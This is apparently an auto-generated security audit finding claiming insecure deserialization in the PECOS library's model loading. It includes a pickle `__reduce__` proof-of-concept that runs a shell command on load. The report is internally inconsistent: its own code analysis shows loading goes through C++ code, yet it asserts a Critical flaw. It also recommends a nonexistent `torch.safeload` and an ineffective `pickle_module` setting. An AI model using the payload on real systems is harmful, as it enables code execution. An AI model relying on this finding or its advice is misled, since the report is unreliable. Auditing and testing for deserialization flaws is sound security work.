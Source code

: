 ### 1. Insecure Deserialization in Model Loading

- **Vulnerability Name:** Insecure Deserialization in Model Loading
- **Description:**
    1. A malicious actor crafts a specially designed model file. This file leverages Python's pickle or PyTorch's serialization mechanisms to embed malicious code within the serialized model data.
    2. The victim, intending to use the PECOS library, loads this malicious model file using the library's API (e.g., `XLinearModel.load`, `HNSW.load`, `XTransformer.load`).
    3. During the model loading process, the PECOS library deserializes the model file, unknowingly executing the embedded malicious code. This is because `pickle.load` and `torch.load` are vulnerable to arbitrary code execution when loading untrusted data.
- **Impact:**
    - **Critical:** Successful exploitation of this vulnerability allows for arbitrary code execution on the victim's machine. This can lead to complete system compromise, data theft, malware installation, or any other malicious action the attacker desires.
- **Vulnerability Rank:** Critical
- **Currently Implemented Mitigations:**
    - None. The code uses `torch.save` and `torch.load` which are inherently vulnerable to insecure deserialization.
- **Missing Mitigations:**
    - **Input Validation:** Implement checks to validate the integrity and source of model files before loading. This could include cryptographic signatures or checksums to ensure the model file hasn't been tampered with.
    - **Secure Deserialization:** Migrate away from `pickle` and `torch.load` for model loading. Explore safer serialization formats like JSON or Protobuf, and implement secure deserialization practices. If `torch.load` must be used, ensure it's used with `pickle_module=pickle` and consider using `torch.safeload` (if available and applicable).
    - **Sandboxing/Isolation:** Isolate the model loading process in a sandboxed environment or container to limit the impact of potential code execution.
- **Preconditions:**
    1. The victim must download and install the PECOS library.
    2. The victim must attempt to load a malicious model file provided by the attacker, using the PECOS library's model loading API.
- **Source Code Analysis:**
    - **File: /code/pecos/xmc/xlinear/model.py**
        ```python
        @classmethod
        def load(cls, folder, is_predict_only=False, weight_matrix_type="BINARY_SEARCH_CHUNKED"):
            ...
            xlm = cls(HierarchicalMLModel.load(folder, is_predict_only, weight_matrix_type=weight_matrix_type))
            ...

        @classmethod
        def load_mmap(cls, folder):
            ...
            xlm = cls(HierarchicalMLModel.load(folder, is_predict_only=True, lazy_load=True))
            ...

        @classmethod
        def compile_mmap_model(cls, npz_folder, mmap_folder):
            ...
            HierarchicalMLModel.compile_mmap_model(npz_folder, mmap_folder)
            ...
        ```
        The `XLinearModel.load`, `XLinearModel.load_mmap` and `XLinearModel.compile_mmap_model` methods call `HierarchicalMLModel.load` and `HierarchicalMLModel.compile_mmap_model`.
        - **File: /code/pecos/xmc/base.py**
        ```python
        @classmethod
        def load(cls, folder, lazy_load=False):
            ...
            model_ptr = clib.mlmodel_load_mmap(folder, lazy_load=lazy_load)
            return cls(model_ptr=model_ptr, pred_params=pred_params)
            ...

        def save(self, folder):
            ...
            self.fn_dict["save"](self.model_ptr, c_char_p(c_model_dir.encode("utf-8")))
            ...
        ```
        `MLModel.load` calls C++ code `clib.mlmodel_load_mmap` which loads mmap model. `MLModel.save` calls C++ code `self.fn_dict["save"]` to save model.
        - **File: /code/pecos/ann/hnsw/model.py**
        ```python
        @classmethod
        def load(cls, model_folder, lazy_load=False):
            ...
            model_ptr = fn_dict["load"](c_char_p(c_model_dir.encode("utf-8")), c_bool(lazy_load))
            ...

        def save(self, model_folder):
            ...
            self.fn_dict["save"](self.model_ptr, c_char_p(c_model_dir.encode("utf-8")))
            ...
        ```
        `HNSW.load` calls C++ code `fn_dict["load"]` which loads model. `HNSW.save` calls C++ code `fn_dict["save"]` to save model.
        - **File: /code/aws_infra/multinode_batch_cdk/cdk_constructs/dockerfile/Dockerfile**
        ```dockerfile
        RUN cd /pecos-source && make clean && make libpecos
        ```
        Indicates that C++ library `libpecos` is built from source code and used by Python library.
        - **File: /code/setup.py**
        ```python
        ext_module = setuptools.Extension(
            "pecos.core.libpecos_float32",
            sources=["pecos/core/libpecos.cpp"],
            ...
        )
        ```
        Indicates that `pecos.core.libpecos_float32` is a C++ extension module, which implies that model loading and saving in `pecos.core.clib` and `fn_dict["load"]`/`fn_dict["save"]` are likely implemented in C++ and may not directly use Python deserialization. However, the Python API `XLinearModel.load`, `HNSW.load` and `XTransformer.load` are still vulnerable if they indirectly call or integrate with Python deserialization methods at any point in the loading process, or if vulnerabilities exist within the C++ deserialization implementation itself. Deeper C++ code analysis is needed to confirm.

    **Security Test Case:**

    1. **Setup:**
        - Install PECOS library in a virtual environment.
    2. **Craft Malicious Model:**
        - Create a Python script (`malicious_model_generator.py`) to generate a malicious model file. This script will use `pickle` or `torch.save` to serialize a payload that executes arbitrary code when deserialized. For example, the payload could execute `os.system('touch /tmp/pwned')`.
        ```python
        import torch
        import os

        class MaliciousModel:
            def __reduce__(self):
                return (os.system, ('touch /tmp/pwned',))

        model = MaliciousModel()
        torch.save(model, 'malicious_model.pt')
        ```
    3. **Victim Loads Malicious Model:**
        - Create a Python script (`victim.py`) that uses the PECOS library to load the malicious model file generated in step 2.
        ```python
        from pecos.xmc.xlinear.model import XLinearModel

        try:
            model = XLinearModel.load("./malicious_model.pt")
        except Exception as e:
            print(f"Error loading model: {e}")
        ```
    4. **Execute Test:**
        - Run the malicious model generator script: `python malicious_model_generator.py`
        - Run the victim script: `python victim.py`
    5. **Verify Exploitation:**
        - Check if the file `/tmp/pwned` exists. If it does, the vulnerability is confirmed, as this indicates that the malicious code embedded in the model file was executed during the loading process.

This test case attempts to demonstrate arbitrary code execution via insecure deserialization when loading a model file using `XLinearModel.load`. Similar test cases can be created for `HNSW.load` and `XTransformer.load`.

This vulnerability list provides a starting point. Further, deeper code analysis, especially of the C++ codebase, is recommended to fully understand the model loading mechanisms and identify other potential vulnerabilities.